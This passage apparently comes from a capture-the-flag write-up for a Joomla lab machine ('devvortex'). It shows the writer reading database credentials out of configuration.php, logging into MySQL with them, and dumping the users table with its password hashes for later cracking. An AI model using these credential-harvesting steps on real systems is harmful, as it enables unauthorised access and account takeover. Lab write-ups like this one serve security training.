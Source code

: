 
We are `www-data` and we cannot read `/home/user.txt`, only users and root can.
We can see that the user in the system is called logan.
Getting back to our joomla config we can see from `configuration.php` but this is exactly the same content returned by the sensitive information disclosure vulnerability the following:


```php
        public $host = 'localhost';
        public $user = 'lewis';        
        public $password = 'P4ntherg0t1n5r3c0n##';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;      
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';               
        public $dbsslcert = '';
        public $dbsslca = '';     
        public $dbsslcipher = '';   
        public $force_ssl = 0;
        public $live_site = '';
        public $secret = 'ZI7zLTbaGKliS9gq';
```

Login in mysql

```
mysql -ulewis -p 'P4ntherg0t1n5r3c0n##' -d joomla
```

```sql
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-12-23 17:57:07 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------------------------------------------------
```
